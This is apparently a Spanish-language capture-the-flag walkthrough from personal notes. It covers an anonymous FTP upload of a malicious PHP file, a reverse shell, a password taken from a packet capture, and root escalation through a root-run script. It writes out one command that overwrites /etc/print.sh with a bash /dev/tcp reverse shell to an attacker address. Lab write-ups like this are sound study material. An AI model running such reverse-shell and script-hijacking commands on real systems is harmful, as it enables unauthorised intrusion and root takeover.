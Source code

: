 Hacemos el reconocimiento con nmap:
![[Mis apuntes/ANEXOS/Pasted image 20230702122506.png]]

Y esta es la página web:
![[Mis apuntes/ANEXOS/Pasted image 20230702122536.png]]

Podemos hacer fuzzing y nos encontramos con el directorio files:
![[Mis apuntes/ANEXOS/Pasted image 20230702122609.png]]

Y aquí tenemos su contenido:
![[Mis apuntes/ANEXOS/Pasted image 20230702122622.png]]

Y en cuanto al servicio FTP está activado el login como anonymous, por tanto vamos a subir un archivo php malicioso:
![[Mis apuntes/ANEXOS/Pasted image 20230702122858.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230702122907.png]]

Y dentro del directorio /ftp nos encontramos con el archivo subido:
![[Mis apuntes/ANEXOS/Pasted image 20230702122931.png]]

Lo ejecutamos y ya tenemos ejecución remota de comandos:
![[Mis apuntes/ANEXOS/Pasted image 20230702122947.png]]

Urlencodeamos el comando para enviarnos una reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230702123720.png]]

Lo ejecutamos, nos ponemos en escucha con netcat y ya estamos dentro:
![[Mis apuntes/ANEXOS/Pasted image 20230702123742.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230702123749.png]]

Una vez dentro, podemos visualizar la receta dentro del directorio raiz, la cual es love:
![[Mis apuntes/ANEXOS/Pasted image 20230702124718.png]]

Nos encontramos con un archivo llamado suspicious.pcapng, el cual es posible que contenga algo interesante, por lo que nos lo copiamos dentro del directorio ftp para descargarlo en nuestra máquina atacante y analizarlo:
![[Mis apuntes/ANEXOS/Pasted image 20230702124855.png]]

![[Mis apuntes/ANEXOS/Pasted image 20230702124920.png]]

Vemos que este archivo tiene extensión .pcapng, por tanto es posible que podamos leerlo con wireshark con tcpdump:
![[Mis apuntes/ANEXOS/Pasted image 20230702125116.png]]

Una vez aquí hacemos clic derecho sobre alguno de los paquetes y hacemos clic en Follow stream:
![[Mis apuntes/ANEXOS/sdfgsdfghsdfhdfghdfgh.png]]

Y se nos abre esta ventana donde capturamos unas credenciales:
c4ntg3t3n0ughsp1c3
![[Mis apuntes/ANEXOS/Pasted image 20230702125617.png]]

Probamos estas credenciales con el usuario lennie y vemos que funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230702125657.png]]

Vemos una carpeta llamada scripts donde hay un script, el cual ejecuta un comando como root y llama a otro script llamado print.sh situado en /etc:
![[Mis apuntes/ANEXOS/Pasted image 20230702130004.png]]

Y el contenido de print.sh es este:
![[Mis apuntes/ANEXOS/Pasted image 20230702130026.png]]

Por tanto vamos a modificar el contenido del archivo print.sh y nos enviaremos una reverse shell como root si estamos escuchando con netcat:
![[Mis apuntes/ANEXOS/Pasted image 20230702130934.png]]

Otra alternativa a acceder al fichero y modificarlo es cambiando el contendio del fichero con echo, el comando seria el siguiente:
```Bash
echo "bash -c 'exec bash -i &>/dev/tcp/10.9.0.150/444 <&1'" > /etc/print.sh
```
![[Pasted image 20240531125415.png]]

Una vez ejecutado el comando y teniendo en escucha por otro terminal netcat habremos obtenido la shell como root
![[Pasted image 20240531125520.png]]



